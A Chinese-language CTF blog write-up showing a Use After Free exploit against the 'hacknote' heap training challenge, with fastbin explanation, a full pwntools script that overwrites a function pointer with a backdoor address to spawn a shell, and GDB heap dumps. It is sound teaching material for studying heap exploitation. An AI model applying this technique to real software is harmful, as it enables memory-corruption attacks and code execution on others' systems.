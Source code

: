 ```yaml
---
title: 「PWN」堆的第一次尝试 - UseAfterFree
date: 2022-06-30
tags: ['CTF', 'Pwn', ]
authors: [nova]
---
```


磨磨蹭蹭这么久也总算是入HEAP的坑了

感谢Ayoung不开之恩（bushi）



先来看一下最简单的`Use After Free`利用，对堆的知识需求很低。明天估计会写一个`Double Free + Unlink`的

用的是`CTF-WIKI`的原题[hacknote](https://github.com/ctf-wiki/ctf-challenges/blob/master/pwn/heap/use_after_free/hitcon-training-hacknote/hacknote)

<!--truncate-->

# Pwntools使用不同的`libc`作为动态解释器的方法

这里提一下中途遇到的坑。`libc-2.31`对堆的回收机制有了不少改变，因此在一开始根据`CTF-WIKI`的方法调试的时候行不通。因此写一下更换动态解释器的方法。

首先需要两个工具，[glibc-all-in-all](https://github.com/matrix1001/glibc-all-in-one)和[patchelf](https://github.com/NixOS/patchelf)

安装方法自行查看`README.md`不多赘述



下载对应的`libc`后，使用`patchelf`对`ELF`文件进行解释

```sh
patchelf --set-interpreter /path/to/libc/libc-2.23.so --set-rpath /path/to/libc/ ./binary_file_name

# For Example: patchelf --set-rpath /home/nova/Desktop/CTF/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ --set-interpreter /home/nova/Desktop/CTF/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so ./use_after_free
```

## 

# Use After Free

引起这个漏洞的原因主要是`dangling pointer` —— 在`free()`后内存指针没有被设置为NULL。

如果此时其他代码修改了这段内存的内容的话，再次使用这段内存就会出现问题。

##  Source

```sh
gcc -m64 -fno-stack-protector -no-pie -z execstack -g use_after_free.c -o use_after_free 
# Make
```

保护全关、64位

![struct_note](https://cdn.novanoir.moe/img/image-20220314214330300.png)

程序定义了一个结构体，定义了一个`printnote`的指针指向`print_note_content`方法以及一个`content`的指针。

![add_note()](https://cdn.novanoir.moe/img/image-20220314214555940.png)

看一下`add_note()`的实现：首先`malloc`了一个`struct note`，也就是16字节的堆。在这之后，为`content`申请了`size`字节的堆。

![del_note()](https://cdn.novanoir.moe/img/image-20220314214818884.png)

注意看`del_note()`。在删除节点后，`count`没有变化——这一方面限制了我们`add_note()`的次数，另一方面也给我们的漏洞利用提供了便利。同时，我们可以发现`free`之后`notelist[idx]`并没有置为`NULL`，这便给我们的`Use After Free`带来了可能。

![print_note()](https://cdn.novanoir.moe/img/image-20220314215110776.png)

可以看出，`print_note()`调用了`notelist[idx]->printnote(notelist[idx])`方法，假如我们能把`notelist[idx]->printnote`的内存修改了的话，也就能做到执行后门函数的效果了。



## Exploit

因为`struct note`是固定`0x20`大小的`chunk`，所以我们主要思考`fastbins`相关的利用

因为`fastbins`维护了`0x20~0x80`的数个链表，且有后进先出的机制。我们不妨这样思考：

倘若我们申请两个`0x20`的note记为`note1`、`note2`，此时我们的程序应该有4个堆——两个大小为`0x20`的`note1_struct_note`和`note2_struct_note`以及两个大小为`0x30`的`note1`和`note2`（不计算`PREV_IN_USE`的一字节）

这时我们将两个note全部释放，则`fastbisn`中此时应该是这样的

```sh
fastbins:
	0x20: note2_struct_note_addr -> note1_struct_note_addr
	0x30: note2 -> note1
```

如果我们此时再申请一个`0x10`的note`note3`呢？由`fastbins`的回收利用机制我们可以想到

第一个`note2_struct_note_addr`被分配给了`note3_struct_note_addr`，而第二个`note1_struct_note_addr`则被分配给了我们可控的`note3`

这时，如果我们将`note3`的`content`改为后门函数，并执行`print_note(0)`

——如你所料的，后门函数被执行了。



```python
from pwn import *

sh = process(["./use_after_free"])


def add_note(size, content):
    sh.recvuntil(b"Your choice :")
    sh.sendline(b"1")
    sh.recvuntil(b"Note size :")
    sh.sendline(str(size).encode())
    sh.recvuntil(b"Content :")
    sh.sendline(content)


def delete_note(index):
    sh.recvuntil(b"Your choice :")
    sh.sendline(b"2")
    sh.recvuntil(b"Index :")
    sh.sendline(f"{index}".encode())


def print_note(index):
    sh.recvuntil(b"Your choice :")
    sh.sendline(b"3")
    sh.recvuntil(b"Index :")
    sh.sendline(f"{index}".encode())


# gdb.attach(sh)
add_note(32, b"aaaa")
add_note(32, b"bbbb")
delete_note(0)
delete_note(1)
add_note(16, p64(0x4015f9)) # addr of magic()
print_note(0)
sh.interactive()
```





## GDB

以上只是理论知识，没有`GDB`实际调过确实是一知半解。

根据上面的exp，我们分别在第二个`add_note()`和第二个`delete_note()`以及最后一个`add_note()`下调试看看

![heap after adding](https://cdn.novanoir.moe/img/image-20220314221552787.png)

![heap after adding](https://cdn.novanoir.moe/img/image-20220314221633396.png)

`0x401256`是`print_note_content()`的地址，`0xd04030`和`0xd04080`是`content`的地址

![heap after deleting](https://cdn.novanoir.moe/img/image-20220314221804318.png)

![heap after deleting](https://cdn.novanoir.moe/img/image-20220314221824810.png)

![heap after deleting](https://cdn.novanoir.moe/img/image-20220314221944311.png)

可以看出，不同大小的链表进入了不同的`fastbins`中。



![heap final](https://cdn.novanoir.moe/img/image-20220314222135890.png)

![heap final](https://cdn.novanoir.moe/img/image-20220314222201810.png)

![heap final](https://cdn.novanoir.moe/img/image-20220314222221269.png)

最后一次添加之后，我们发现：`fastbins`中的两个`0x20`大小的堆被回收利用了！且作为`content`的`0x4015f9`的后门函数地址已经写到了一开始`print_note_content()`的地方



此时运行`print_note()`，后门函数便执行了

![Shell!](https://cdn.novanoir.moe/img/image-20220314222613059.png)

